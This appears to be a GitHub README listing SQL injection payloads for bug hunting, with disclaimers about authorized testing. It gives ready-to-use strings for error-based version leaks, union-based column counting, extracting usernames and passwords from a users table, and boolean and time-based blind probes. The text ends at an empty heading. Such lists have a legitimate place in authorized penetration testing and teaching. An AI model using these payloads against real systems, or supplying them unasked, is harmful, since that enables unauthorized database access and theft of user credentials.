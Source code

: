 # Advanced SQL Injection Techniques

## Here are some Advanced SQL Injection Techniques I commonly use. Happy hunting! :+1:

**Note:** :warning::warning:These advanced techniques should be used responsibly and only in legal and authorized testing scenarios. They go beyond the basics and exploit specific features and configurations of databases. Additionally, I may have unintentionally included openly available techniques from various sources.

**WARNING:** :warning::warning:If you dont know what you are doing, please refrain from using these techniques. Improper use may harm the database. 

> The techniques showed in this repository is intended only for educational purposes and for testing in authorized environments. https://twitter.com/nav1n0x/ and https://github.com/ifconfig-me take no responsibility for the misuse of the techniques listed below. Use it at your own risk. Do not attack the target you don't have permission to engage with.

### 1. Advanced Payloads and Techniques

#### Error-Based SQL Injection
- **Advanced Error Payloads**:
  ```sql
  ' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- -
  ```

#### Union-Based Injection
- **Determining the Number of Columns**:
  ```sql
  ' UNION SELECT NULL, NULL, NULL, NULL -- 
  ```
- **Extracting Data**:
  ```sql
  ' UNION SELECT username, password, NULL, NULL FROM users -- 
  ```

#### Blind SQL Injection
- **Boolean-Based Blind**:
  ```sql
  ' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END) -- 
  ```
- **Time-Based Blind**:
  ```sql
  ' AND IF(1=1, SLEEP(5), 0) -- 
  ```

#### Second-Order SQL Injection
- **Injection in Profile Information**:
  Modify data stored in one place to affect queries executed elsewhere.

#### Advanced Union-Based SQL Injection
